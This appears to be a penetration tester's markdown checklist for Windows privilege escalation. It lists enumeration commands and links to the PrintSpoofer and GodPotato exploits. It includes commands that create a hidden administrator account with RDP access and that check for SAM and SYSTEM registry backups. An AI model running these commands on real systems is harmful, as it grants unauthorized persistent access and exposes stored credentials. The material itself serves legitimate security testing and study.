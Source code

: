 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` -> SeImpersonatePrivilege
  - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```


## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```
